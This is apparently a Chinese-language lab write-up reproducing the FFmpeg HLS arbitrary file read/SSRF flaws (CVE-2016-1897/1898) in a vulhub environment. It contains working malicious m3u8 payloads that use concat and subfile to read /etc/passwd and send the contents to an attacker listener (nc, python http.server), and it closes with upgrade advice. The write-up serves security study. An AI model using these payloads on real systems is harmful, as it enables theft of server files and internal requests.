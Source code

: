 # ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）

## 原文链接&靶场链接

http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html

https://blog.csdn.net/EC_Carrot/article/details/117510184

https://www.freebuf.com/articles/web/258320.html

https://vulhub.org/#/environments/ffmpeg/CVE-2016-1897/

## 影响范围

- FFmpeg 2.8.x < 2.8.5
- FFmpeg 2.7.x < 2.7.5
- FFmpeg 2.6.x < 2.6.7
- FFmpeg 2.5.x < 2.5.10

## 什么是FFmpeg

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

## 漏洞概述

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样。

## 什么是HLS

漏洞是出现在解析HLS流媒体文件时的问题,所以必须先了解HLS

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

```
#EXTM3U 标签是m3u8的文件头，开头必须要这一行
#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
#EXT-X-VERSION:2 该标签可有可无
#EXTINF:6, 表示该一段TS流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。
```

## 漏洞复现
**back.txt 和 upload.m3u8 文件要先在本地用编辑器编辑好，
用vim 会有格式问题，无法读取文件**

启动靶场后访问192.168.123.133:8080,一个上传页面

![image-20220501162242565](https://user-images.githubusercontent.com/85486547/166141322-384de497-2e84-4e47-bcd0-5be44bb57ca9.png)



由于vulhub并没有讲述该漏洞如何复现，我们需要进入环境查看源码

```php
cat index.php 
<?php
if(!empty($_FILES)) {
    $filename = escapeshellarg($_FILES['file']['tmp_name']);
    $newname = './' . uniqid() . '.mp4';
    shell_exec("ffmpeg -i $filename $newname");
}
```

可以看到实际上只是借用了 ffmpeg -i 这个命令来处理视频文件。





首先构造一个恶意的 m3u8 的文件(用记事本编写，保存为`.m3u8`后缀)：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://your_ip:9999/test.txt
#EXT-X-ENDLIST
```

```
参数说明
#EXTM3U 标签是 m3u8 的文件头，开头必须要这一行
#EXT-X-MEDIA-SEQUENCE 表示每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1
#EXTINF:10.0, 表示该一段 TS 流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
```

由于`FFMpeg` 去请求 TS 流文件（URL）时，`FFMpeg` 不会判断里面的流地址，直接请求。所以我们可以试想，用`FFMpeg`内自带的concat函数，将一个不包含文件结束符的文件与file协议读取的文件衔接起来，请求回攻击机，就能够达到读取任意文件的效果！

### 步骤一

在我们自己的web服务器上创建一个back.txt，文本内容是m3u8的格式，其中不包含文本结束符

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://192.168.123.128:9999/?
```

开启http服务

```
python3 -m http.server 8888
```

监听9999端口

```
nc -lvnp 9999
```

### 步骤二

上传恶意upload.m3u8文件

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|file:///etc/passwd
#EXT-X-ENDLISTa
```



web端读取到数据
![image-20220501171153607](https://user-images.githubusercontent.com/85486547/166141336-f06897f9-78b3-4cc1-913d-b03fe3fd7052.png)



### 步骤三

可以发现以上的操作方式，只能将 /etc/passwd 数据中的第一行带外出来，但是后面的内容还是没有读出来，因此我们借助其他函数进行进一步利用。ffmpeg 还提供了 subfile 函数，其中 Start 后是开始截取的偏移量，以字节为单位，end 是结束的偏移量。

```
subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB
Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。
```

只需要改恶意的 upload.m3u8 文件

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd
#EXT-X-ENDLIST
```

在逐渐增加 subfile 偏移量的测试过程中，发现超过一定长度后，数据读取部分不再增加。猜测可能和 URL 长度或者和换行符有关。

在不断测试的过程中，最终发现，与 URL 长度，m3u8 请求 URL 都无关系，也没有 32 字节的限制。实际上 concat 连接 URL 时是不能包含换行符的。/etc/passwd 文件存储过程中换行符 \n 是占一个字符的，所以无论是通过 file 协议，还是 subfile 切片，只要是读取到 \n 则中断，后面的内容无法输出。

按照这个思路，我们能只需要通过 subfile 读取文件时，跳过 \n 符号，不断根据返回的数据进行调试，最终可以读取到完整的数据。以如下的 /etc/passwd 的文件为例，附上 payload 参考：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd|subfile,,start,80,end,116,,:///etc/passwd|subfile,,start,117,end,153,,:///etc/passwd|subfile,,start,154,end,188,,:///etc/passwd|subfile,,start,189,end,236,,:///etc/passwd|subfile,,start,237,end,284,,:///etc/passwd|subfile,,start,285,end,329,,:///etc/passwd|subfile,,start,330,end,373,,:///etc/passwd|subfile,,start,374,end,423,,:///etc/passwd|subfile,,start,424,end,475,,:///etc/passwd|subfile,,start,476,end,518,,:///etc/passwd|subfile,,start,519,end,571,,:///etc/passwd|subfile,,start,572,end,624,,:///etc/passwd|subfile,,start,625,end,686,,:///etc/passwd|subfile,,start,687,end,735,,:///etc/passwd|subfile,,start,736,end,817,,:///etc/passwd|subfile,,start,818,end,876,,:///etc/passwd|subfile,,start,877,end,918,,:///etc/passwd|subfile,,start,919,end,965,,:///etc/passwd
#EXT-X-ENDLIST
```

![image-20220501174002759](https://user-images.githubusercontent.com/85486547/166141365-c03d4a11-7572-4d6f-956c-80bbccb8aa44.png)


## 修复

目前该漏洞已在FFMpeg**2.8.5**中修复，请广大用户马上升级
